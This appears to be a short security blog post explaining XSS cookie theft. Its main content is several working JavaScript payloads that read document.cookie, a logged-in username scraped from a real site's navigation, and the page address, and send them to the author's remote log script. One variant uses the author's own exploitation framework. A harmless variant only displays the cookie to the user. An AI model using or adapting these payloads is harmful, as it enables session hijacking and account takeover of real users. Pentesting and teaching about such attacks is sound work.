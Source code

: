 ```yaml
---
title: General cookie jacker
---
```


For a very tiny amount of code, one could very easily send a cookie to a log
script or send any information that they want from a user. Sending the user's
cookie across domains can be very useful for an attacker because if the server
manages cookies and sessions in a way that the cookie doesn't change, the
attacker has instantly become that user. If the service is changing the cookie,
this may be guessable as it's generally just an increment.

``` javascript
(x = new XMLHttpRequest || ActiveXObject("Microsoft.XMLHTTP"))
  .open("GET",
        "http://darkfox.hackerhaven.net/exploits/log.php?c="
          + escape(document.cookie), 1);
x.send();
```

Present the user with their cookie
==================================

The cookie doesn't need to be broadcasted to a server to show a fault and
serious security vulnerability. As I wouldn't want to steal people's sessions,
I would generally use the following to prove the cookie can be stolen by
presenting the user with their cookie.

``` javascript
document.querySelector("#cookie").textContent = document.cookie
```

Sending more than the cookie
============================

A cookie in it's self isn't always what you want to collect, you may also want
to collect information that is available to the user who is logged in. Below
I have an example which I used on <http://qooh.me> to get the username of the
user from the navigation.

``` {.javascript .showAll}
/* Fetch the username from the 2nd navigation list item. */
var u = document.querySelector("li:nth-child(2) a")
                .getAttribute("href")
                .slice(1), x;

/* Create and send the user's username, cookie and address of the page they are
 * visiting.
 */
(x = new XMLHttpRequest || ActiveXObject("Microsoft.XMLHTTP"))
    .open("post",
          "http://darkfox.us.to/exploits/log.php",
          1);

/* Because we are 'POST'ing the data in a urlencoded format, we need to tell
 * the server how to take out request correctly.
 */
x.setRequestHeader("Content-type",
                   "application/x-www-form-urlencoded");

/* I have a helper function here which encodes the object to a urlencoded
 * string.
 */
x.send((function(j){
    var a = [];
    for (var k in j)
      a.push(escape(k) + "=" + escape(j[k]));
    return a.join("&");
  })({ c: document.cookie
     , u: u.indexOf("user/") == 0 ? "user is a guest" : u
     , a: location.href
     }));
```

Using my DFEF.js
----------------

I have written a small framework to aid communication and improve the
readability of the code. This does however require my script to be pre-loaded.
For more information for the framework check out [DarkFox's Exploitation
Framework][DFEF].

``` javascript
var u = document.querySelector("li:nth-child(2) a")
                .getAttribute("href")
                .slice(1);

df.post("http://darkfox.us.to/exploits/log.php",
        { c: document.cookie
        , u: u.indexOf("user"/") == 0 ? "user is a guest" : u
        , a: location.href
        })
```

For more information on the <http://qooh.me> exploits, check out my [Pentest
report for qooh.me][Pentest-qooh.me]

 [Pentest-qooh.me]: /2013/06/01/qooh.me-pentest-report/
 [DFEF]:            /exploits/dfef/
